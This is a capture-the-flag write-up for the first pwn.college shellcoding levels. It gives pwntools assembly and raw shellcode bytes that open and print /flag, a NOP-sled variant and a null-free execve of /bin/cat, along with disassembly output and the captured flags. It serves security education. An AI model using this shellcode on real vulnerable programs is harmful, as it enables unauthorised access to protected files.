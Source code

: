 # LEVEL 1
Referred from what Yan from pwncollege taught in the intro.
Wrote the following python script with the assembly code of how I wanna use the `sendfile` command as per the chal desc.
```
from pwn import *

context.arch='amd64'
context.os='linux'

asmc='''
    mov rax, 0x00000067616c662f         ; /flag
    push rax                            

    mov rdi, rsp                                   
    mov rsi, 0                          
    mov rax, 2                          
    syscall

    mov rdi, rax                        
    mov rsi, rsp                        
    mov rdx, 1000                       
    mov rax, 0                          
    syscall

    mov rdi, 1                          
    mov rsi, rsp                        
    mov rdx, rax                        
    mov rax, 1                          
    syscall

    mov rdi, 40                        
    mov rax, 60                         
    syscall
'''

sc=asm(asmc)
print(sc)

```
`echo -en 'H\xb8/flag\x00\x00\x00PH\x89\xe7H\xc7\xc6\x00\x00\x00\x00H\xc7\xc0\x02\x00\x00\x00\x0f\x05H\x89\xc7H\x89\xe6H\xc7\xc2\xe8\x03\x00\x00H\xc7\xc0\x00\x00\x00\x00\x0f\x05H\xc7\xc7\x01\x00\x00\x00H\x89\xe6H\x89\xc2H\xc7\xc0\x01\x00\x00\x00\x0f\x05H\xc7\xc7(\x00\x00\x00H\xc7\xc0<\x00\x00\x00\x0f\x05' ` was the shellcode to be given to the chall.
```
Reading 0x1000 bytes from stdin.

This challenge is about to execute the following shellcode:

      Address      |                      Bytes                    |          Instructions
------------------------------------------------------------------------------------------
0x00007ffecc2d2370 | 48 b8 2f 66 6c 61 67 00 00 00                 | movabs rax, 0x67616c662f
0x00007ffecc2d237a | 50                                            | push rax
0x00007ffecc2d237b | 48 89 e7                                      | mov rdi, rsp
0x00007ffecc2d237e | 48 c7 c6 00 00 00 00                          | mov rsi, 0
0x00007ffecc2d2385 | 48 c7 c0 02 00 00 00                          | mov rax, 2
0x00007ffecc2d238c | 0f 05                                         | syscall
0x00007ffecc2d238e | 48 89 c7                                      | mov rdi, rax
0x00007ffecc2d2391 | 48 89 e6                                      | mov rsi, rsp
0x00007ffecc2d2394 | 48 c7 c2 e8 03 00 00                          | mov rdx, 0x3e8
0x00007ffecc2d239b | 48 c7 c0 00 00 00 00                          | mov rax, 0
0x00007ffecc2d23a2 | 0f 05                                         | syscall
0x00007ffecc2d23a4 | 48 c7 c7 01 00 00 00                          | mov rdi, 1
0x00007ffecc2d23ab | 48 89 e6                                      | mov rsi, rsp
0x00007ffecc2d23ae | 48 89 c2                                      | mov rdx, rax
0x00007ffecc2d23b1 | 48 c7 c0 01 00 00 00                          | mov rax, 1
0x00007ffecc2d23b8 | 0f 05                                         | syscall
0x00007ffecc2d23ba | 48 c7 c7 28 00 00 00                          | mov rdi, 0x28
0x00007ffecc2d23c1 | 48 c7 c0 3c 00 00 00                          | mov rax, 0x3c
0x00007ffecc2d23c8 | 0f 05                                         | syscall

Executing shellcode!

pwn.college{YvajjOW2LxGo54Yw6pt32rm-9hH.01NxIDL3AjN1czW}

```

> FLAG -> pwn.college{YvajjOW2LxGo54Yw6pt32rm-9hH.01NxIDL3AjN1czW}

# LEVEL 2
The challenge is the same as before, just that the program skips 2048 lines, so we have to add nop sleds such that the necessary part of the shellcode gets executed.  
```
from pwn import *

context.arch='amd64'
context.os='linux'
asmc='''
    .rept 2048
        nop
    .endr
    mov rax, 0x00000067616c662f    ; /flag     
    push rax                            

    mov rdi, rsp                                   
    mov rsi, 0                          
    mov rax, 2                          
    syscall

    mov rdi, rax                        
    mov rsi, rsp                        
    mov rdx, 1000                       
    mov rax, 0                          
    syscall

    mov rdi, 1                          
    mov rsi, rsp                        
    mov rdx, rax                        
    mov rax, 1                          
    syscall

    mov rdi, 40                        
    mov rax, 60                         
    syscall
'''


sc=asm(asmc)
print(sc)
```

> FLAG -> pwn.college{U2m9XCBD29YjCItiC9cjHnlcsod.0FOxIDL3AjN1czW}

# LEVEL 3
According to the chal, our written shell code must have 0 NULL bytes. 
I used `Shellcraft` to make my script which gave me the shellcode to bring about this.  
I first gave the argument as `/bin/sh`, weirdly it gave me the flag in an unusual way.
```
Executing shellcode!

/flag: 1: pwn.college{QqlcAkceUM88lJIt4GZV7utuMWO.0VOxIDL3AjN1czW}: not found
```
I later did some research and found out that I had to give in `/bin/cat` as an argument to read the flag!
I did so, and got a smooth response.

```
      Address      |                      Bytes                    |          Instructions
------------------------------------------------------------------------------------------
0x0000000026c95000 | 6a 01                                         | push 1
0x0000000026c95002 | fe 0c 24                                      | dec byte ptr [rsp]
0x0000000026c95005 | 48 b8 2f 62 69 6e 2f 63 61 74                 | movabs rax, 0x7461632f6e69622f
0x0000000026c9500f | 50                                            | push rax
0x0000000026c95010 | 48 89 e7                                      | mov rdi, rsp
0x0000000026c95013 | 48 b8 01 01 01 01 01 01 01 01                 | movabs rax, 0x101010101010101
0x0000000026c9501d | 50                                            | push rax
0x0000000026c9501e | 48 b8 01 2e 67 6d 60 66 01 01                 | movabs rax, 0x10166606d672e01
0x0000000026c95028 | 48 31 04 24                                   | xor qword ptr [rsp], rax
0x0000000026c9502c | 48 b8 2f 62 69 6e 2f 63 61 74                 | movabs rax, 0x7461632f6e69622f
0x0000000026c95036 | 50                                            | push rax
0x0000000026c95037 | 31 f6                                         | xor esi, esi
0x0000000026c95039 | 56                                            | push rsi
0x0000000026c9503a | 6a 11                                         | push 0x11
0x0000000026c9503c | 5e                                            | pop rsi
0x0000000026c9503d | 48 01 e6                                      | add rsi, rsp
0x0000000026c95040 | 56                                            | push rsi
0x0000000026c95041 | 6a 10                                         | push 0x10
0x0000000026c95043 | 5e                                            | pop rsi
0x0000000026c95044 | 48 01 e6                                      | add rsi, rsp
0x0000000026c95047 | 56                                            | push rsi
0x0000000026c95048 | 48 89 e6                                      | mov rsi, rsp
0x0000000026c9504b | 31 d2                                         | xor edx, edx
0x0000000026c9504d | 6a 3b                                         | push 0x3b
0x0000000026c9504f | 58                                            | pop rax
0x0000000026c95050 | 0f 05                                         | syscall
Executing shellcode!

pwn.college{QqlcAkceUM88lJIt4GZV7utuMWO.0VOxIDL3AjN1czW}
```

> FLAG -> pwn.college{QqlcAkceUM88lJIt4GZV7utuMWO.0VOxIDL3AjN1czW}
# LEVEL 4
